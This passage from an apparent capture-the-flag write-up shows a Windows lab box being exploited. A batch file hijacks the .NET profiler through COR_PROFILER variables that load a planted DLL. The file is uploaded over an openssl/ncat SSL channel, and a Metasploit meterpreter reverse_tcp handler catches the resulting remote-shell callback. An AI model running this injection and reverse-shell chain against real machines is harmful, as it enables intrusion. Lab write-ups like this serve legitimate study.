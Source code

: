 

### Upload bat File

I've got this `bery.bat`, which will set the parameters used in this
technique and then run `tzsync`, a managed program:



    set "COR_ENABLE_PROFILING=1"
    set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
    set "COR_PROFILER_PATH=C:\windows\servicing\packages\df.dll"
    set "IP=10.10.14.14"
    set "PORT=136"
    tzsync



Now I'll upload that as well:



    ethereal> quiet c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 > c:\users\public\desktop\shortcuts\bery.bat





    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < bery.bat
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::73
    Ncat: Listening on 0.0.0.0:73
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49715.



### Execute

Just as in my test, I'll start a handler for this incoming callback:



    msf5 > handler -H tun0 -P 136 -p windows/x64/meterpreter/reverse_tcp
    [*] Payload handler running as background job 4.

    [*] Started reverse TCP handler on 10.10.14.14:136



I'll run the following to kick off the execution:



    ethereal> quiet cmd /c cmd < \users\public\desktop\shortcuts\bery.bat



And get a callback:



    msf5 > [*] Sending stage (206403 bytes) to 10.10.10.106
    [*] Meterpreter session 5 opened (10.10.14.14:136 -> 10.10.10.106:49716) at 2019-03-13 07:05:23 -0400
    msf5 > sessions -i 5
    [*] Starting interaction with 5...

